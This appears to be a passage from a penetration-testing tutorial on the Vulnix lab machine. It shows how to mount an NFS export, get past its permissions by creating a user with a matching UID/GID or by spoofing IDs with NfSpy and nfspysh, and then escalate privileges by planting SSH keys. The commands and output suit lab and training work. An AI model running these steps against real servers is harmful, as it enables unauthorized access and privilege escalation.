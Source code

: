 ### Mounting The Export

You can manually mount an NFS share using the `mount` command, but you won't be able to access the directory unless the UID and GID of your user matches those of the shared directory on the server:

```bash
$ mkdir ~/nfs-mount
$ sudo mount -t nfs -o vers=3 192.168.56.108:/home/vulnix ~/nfs-mount/
$ ls -ld nfs-mount/

drwxr-x--- 2 2008 2008 4096 Sep  2  2012 nfs-mount/
```
You will need to create a new user and group with matching UIDs and GIDs and run all your commands as that user.

```bash
$ sudo groupadd -g 2008 vulnix
$ sudo adduser vulnix -uid 2008 -gid 2008
$ su vulnix
```

Now you can access the directory normally:

```bash
$ ls -a ~/nfs-mount

. .. .bash_logout .bashrc .profile
```

From here you now have a read/write access which you can use to escalate privileges, for example by uploading your own SSH keys.


### NfSpy

The process of mounting an NFS share can be simplified with NfSpy.
NfSpy works by using FUSE to mount the NFS share in userspace, and spoofs the UID and GID instead of actually creating a new user.

NfSpy used to come with Kali OS, but was removed from `kali-rolling` in 2019 as the source code was no longer maintained and archived.
To install NfSpy simply clone [the git repository](https://github.com/bonsaiviking/NfSpy/) and then run `sudo python2 setup.py install`.

```bash
$ nfspy -o server=192.168.2.4:/home/vulnix,nfsport=2049/tcp,rw vulnix-mount
$ ls -a vulnix

.  ..  .bash_logout  .bashrc  .profile
```

Alternatively, you can get an FTP-like shell using `nfspysh`, which doesn't require FUSE and therefore is much more convenient to deploy for Windows and other OS users:

```
nfspysh -o server=192.168.56.108:/home/vulnix

nfspy@192.168.56.108:/home/vulnix:/> ls
/:
040750   2008   2008        4096 2012-09-02 19:25:02 .
100644   2008   2008         220 2012-04-03 16:58:14 .bash_logout
100644   2008   2008         675 2012-04-03 16:58:14 .profile
040750   2008   2008        4096 2012-09-02 19:25:02 ..
100644   2008   2008        3486 2012-04-03 16:58:14 .bashrc
```
